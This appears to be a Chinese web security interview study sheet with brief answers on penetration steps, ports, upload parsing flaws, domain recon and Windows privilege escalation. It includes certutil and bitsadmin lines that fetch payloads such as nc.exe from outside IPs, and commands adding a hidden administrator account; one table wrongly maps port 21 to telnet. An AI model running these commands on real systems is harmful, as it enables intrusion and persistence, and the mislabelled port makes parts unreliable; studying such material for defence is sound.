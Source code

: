 ## web安全面试题

**1）给你一个目标站，你觉得应该先做什么？**

信息收集（域名子域、真实ip、端口服务探测）

漏洞发现（漏洞扫描、CMS识别、应用版本识别、poc验证漏洞存在、黑盒测试、源码审计）

漏洞利用（历史漏洞、EXP利用、能否反弹shell、爆库）

持续控制（提升权限、维持访问、清除痕迹）

**2）写出下列端口对应的服务？**

| 21     | 22   | 80   | 443   | 1433      | 3306  | 3389      |
| ------ | ---- | ---- | ----- | --------- | ----- | --------- |
| telnet | ssh  | http | https | sqlserver | mysql | **mstsc** |

**3）常见的上传解析漏洞**

**apache：**从右向左（abc.php.xxx.aaa.bbb） -> abc.php

**iis6.0:** 

文件夹名泛解析（aaa.asp文件夹下的a.txt会以asp解析）

特殊文件名(;.jpg): aaa.asp;.jpg这个文件会以asp方式运行。

**iis7.0、7.5:**

任意文件名.jpg，在后面追加上/任意文件名.php，那么这个文件会以PHP方式来运行 比如http://xxxxv/tila.jpg/ccc.php 会以tila.php解析。

**Nginx 解析漏洞：**

任意文件名后面添加xxx.php的方式来运行这个文件

在文件后面添加%00.php也会以php的方式运行。

**3）域内常用命令**

**ipconfig /all**判断是否存在域，**nslookup**判断域控是否与dns服务器在同一服务器上，**net config workstation**查看登录域信息，**net time /domain**查看主域,若是报错或者显示时间，有域控。否则不存在域。

**4）域管账号密码对其他成员执行命令**

**5）cmd下远程文件下载**

vb下载：先echo写入vb脚本，然后cscript执行下载脚本

certutil一句话下载payload：

```shell
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```

ftp一句话下载payload：先echo写入ftp下载脚本，然后执行ftp -s:xxx

bitsadmin 下载一句话/payload：bitsadmin /transfer down /download /priority normal 'http://198.13.37.239/nc.exe' d:\\nc.exe

js一句话读取/写入文件

powershell一句话下载payload：powershell.exe -ExecutionPolicy Bypass -File down.ps1

**6）抓包改包**

burp、fiddle、charles

**7）常见的web容器**

IIS,APACHE,NGINX,TOMCAT,WEBLOGIC,DJANGO,JBOSS

**8) 快速判断目标服务器是Windows还是linux**

是否大小写敏感

**9）常见的Windows提权方法**

1）syteminfo查看补丁信息，查找exp（内核提权）

2）mssql提取、udf提权

3）Windows系统配置错误提权(dll劫持、**注册表键AlwaysInstallElevated**、**可信任服务路径漏洞**、自动安装配置文件*、计划任务)

4) bypass uac

**10）下列端口对应的服务**

| 873           | 5000 | 5900    | 1521   |
| ------------- | ---- | ------- | ------ |
| rsync文件同步 |      | vnc远程 | oracle |

**11) .htaccess 文件配置jsp文件解析为php**

```.htacss
SetHandler application/x-httpd-php
```

**12) csrf ,ssrf .以及重放攻击的区别**

重放攻击：以登录业务为例（不具备身份，但是有认证信息）

csrf：以添加用户为例（已经有了一个身份、用户或者是管理员）

ssrf： 伪造服务端发送请求，探测内网

**13）windows下添加本地账户以及加入到管理员组的命令**

```cmd
net user whoami$ Liu78963 /add
net localgroup administrators whoami$ /add
```

**14) windows下>与>>的区别：**写入（会覆盖）与追加

**15）常见的javaweb应用以及框架**

**Hibernate、Struts2、MyBatis、Spring、spring MVC** 

**16）mysql 导出文件的命令**

```sql
mysqldump 数据库名 --host=主机 --port=端口 -u用户名 -p密码 --where="过滤条件" --tables 数据表 > 导出文件路径.sql
```

**17）缓冲区溢出**

**18）DNS域传送**漏洞复现命令

**19）nmap 默认扫描哪些端口**

默认情况下，Nmap用指定的协议对端口1到1024以及`nmap-services` 文件中列出的更高的端口在扫描。